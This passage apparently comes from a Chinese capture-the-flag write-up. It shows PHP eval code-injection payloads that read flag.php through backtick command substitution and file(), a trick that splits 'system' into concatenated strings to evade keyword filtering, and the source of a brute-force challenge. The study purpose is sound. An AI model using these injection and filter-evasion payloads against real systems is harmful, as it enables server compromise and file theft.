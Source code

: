 构造payload如下

```
?hello=);echo%20`cat%20./flag.php`;
```

然后这里面就必须讲一下一些小技巧！第一单引号，双引号，反引号在bash中的作用！
（PS：反引号位 (`) 位于键盘的Tab键的上方、1键的左方。注意与单引号(‘)位于Enter键的左方的区别。）

反括号`在Linux中起着命令替换的作用。命令替换是指shell能够将一个命令的标准输出插在一个命令行中任何位置。如下：
[root@localhost sh]# echo The date is `date`
The date is 2011年 03月 14日 星期一 21:15:43 CST
 <font size="3">单引号、双引号用于用户把带有空格的字符串赋值给变量事的分界符。如果没有单引号或双引号，shell会把空格后的字符串解释为命令。
单引号和双引号的区别。单引号告诉shell忽略所有特殊字符，而双引号忽略大多数，但不包括$、\、`。
栗子：
[root@localhost tmp]# echo ‘the date is `date`’
the date is `date`
[root@localhost tmp]# echo “the date is `date`”
the date is Fri Oct 9 00:11:56 CST 2015</font> 
是不是发现了什么！eval( “var_dump($a);”);正式双引号！！！我们就可以用`了！
然后用cat读取输出即可！

这里还收集了其他的姿势！payload如下：

```
?hello=$a);print_r(file("./flag.php"));
```

```
hello=$a);$a="sys";$b="tem";$c=$a.$b;echo%20$c;$c("cat%20./flag.php"); 
// 这里发现 i春秋 在http请求中拦截了 system 函数等关键字 , 
因此可以通过 php 的字符串连接成为函数名 , 然后进行调用
这里其实是把 system 函数名作为字符串分开 , 这样在 http 请求头中不会出现 "system(xxx)" 这样的关键字
```

## 爆破-3

首先我们看到题目的脚本

```
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

```